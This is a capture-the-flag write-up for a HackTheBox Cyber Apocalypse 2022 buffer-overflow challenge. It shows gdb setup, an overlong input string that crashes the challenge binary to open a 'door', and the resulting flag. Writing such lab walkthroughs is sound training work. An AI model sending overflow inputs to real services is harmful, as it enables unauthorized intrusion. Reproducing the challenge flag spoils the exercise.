 ```yaml
---
title: HTB-CA22-pwn-spacepirate-entrypoint
date: "2022-05-19"
description: pwn challenge during Cyber Apocalypse 2022
tldr: buffer-overflow
tags: [htb,hackthebox,ca22,cyber-apocalypse22,pwn,buffer-overflow]
---
```



## Backstory
Each challenge had a story tied to it, for this challenge it was:   

D12 is one of Golden Fang's missile launcher spaceships. Our mission as space pirates is to highjack D12, get inside the control panel room, and access the missile launcher system.  
To achieve our goal, we split the mission into three parts. In this part, all we need to do is bypass the scanning system and open the gates so that we proceed further.  


 
 ## Attack the challenge
unzip the file and start analyzing.  

```shell
sudo apt install -y gdb gdb-peda  
```
  
Look at the included history file: 
```shell
$ cat .gdb_history  
l  
b main  
r  
disass main  
disass open_door  
```  

try to run the program and see how it behaves
```shell
gdb sp_challenge  
2 (enter password)  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA  
```

this will crash the program and get the fake flag.  
  
try the same procedure on the remote server, and get the flag

```shell
[+] Door opened, you can proceed with the passphrase: HTB{th3_g4t35_4r3_0p3n!}
```

Flag: `HTB{th3_g4t35_4r3_0p3n!}`